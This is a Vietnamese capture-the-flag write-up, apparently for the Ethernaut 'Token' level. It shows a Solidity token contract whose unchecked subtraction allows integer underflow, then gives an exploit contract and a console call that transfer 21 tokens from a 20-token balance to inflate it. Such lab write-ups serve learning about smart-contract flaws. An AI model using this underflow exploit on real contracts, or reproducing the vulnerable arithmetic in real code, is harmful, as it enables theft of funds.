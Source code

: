 # Level 5: Token
## ★★☆☆☆
## Given contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```
## Phân tích
- Chúng ta được gợi ý về odometer, vậy odometer là gì ?
- Odometer ở đây ý là đồng hồ đo số km trên xe, nếu vượt quá mức limit được cài sẵn thì nó tự reset về 0. -> cho ta gợi ý về overflow
- Chúng ta đều biết về lỗi ``overflow`` là hiện tượng tràn số khi khi tính toán số lớn hơn giá trị max của kiểu dữ liệu đã khao báo. Nhưng trong challenge này ta sẽ gặp ``underflow``, tương tự như ``overflow``, ``underflow`` chỉ là tràn số khi dưới min và được reset trở lại giá trị max .

- Để ý trong function transfer ta có:
```javascript
    require(balances[msg.sender] - _value >= 0);
```
- Ta thấy nếu như balance >= value thì đương nhiên trả về luôn là true, còn nếu như balance < value thì khi balance - value sẽ xảy ra hiện tượng ``underflow``


## Solution
**Target**: làm cho số token trong balance càng lớn càng tốt.  
- Ta kiểm tra balance và thấy có 20 token -> ta cần transfer vào 21 token để trigger hiện tượng ``underflow``

```javascript
await contract.balanceOf(player).then(x => x.toString())
20

```
Một contract đơn giản để tranfer trên remix:
```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >0.6.3;

interface IToken {
    function balanceOf(address) external view returns (uint256);
    function transfer(address to, uint256 value) external returns (bool);
}

contract Hack {
    constructor(address _target) {
        IToken(_target).transfer(msg.sender, 21);
    }
}
```
hoặc bạn có thể dùng lệnh sau trên console:
```javascript
contract.transfer(player, 21)
```
**Check lại balance** -> Done




